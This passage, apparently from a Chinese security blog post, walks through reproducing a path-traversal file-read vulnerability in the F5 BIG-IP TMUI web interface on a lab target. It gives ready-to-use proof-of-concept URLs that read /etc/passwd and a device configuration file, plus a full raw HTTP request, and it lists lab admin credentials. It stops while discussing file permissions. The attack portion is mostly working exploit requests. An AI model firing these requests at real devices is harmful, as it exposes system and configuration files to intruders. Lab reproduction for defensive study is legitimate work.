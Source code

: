 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHl34gF1MDtatzHlvoCNRcJLym2dwD4LqWDBWT9WwiciazpeKbRP2xcNvg/640?wx_fmt=png "")  
  
至此，我们已经拥有一个账号为admin/  
hkn!2gQWsgk的漏洞靶机，和一个账号为  
admin/  
hkn!2gQWsgk1的安全主机，  
下面我们进行简易测试~  
##### 漏洞利用  
###### 文件读取  
  
POC:  

```
系统文件：/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

  
执行结果：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHlsiaMyIa3En59UmoNUXemSg8vFcXELxwah7BD9ic52RVEn2Gczj5VWVQ/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```


```
配置文件：/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/profile_base.conf
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHmmrINl80JvW4MiaJVdeSHXme3rza8yiclvSbMJibfgg2dtDSkNxUwWLLw/640?wx_fmt=png "")  
  
其余的配置文件如下所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHL6mTY6AUgdGq8THBqibhxQS0UcL8hlgHqib1ER4tOgOdPDsuMpQxMYJQ/640?wx_fmt=png "")  
  
文件的权限如下所示，可以看到有些文件并没有读权限：  
  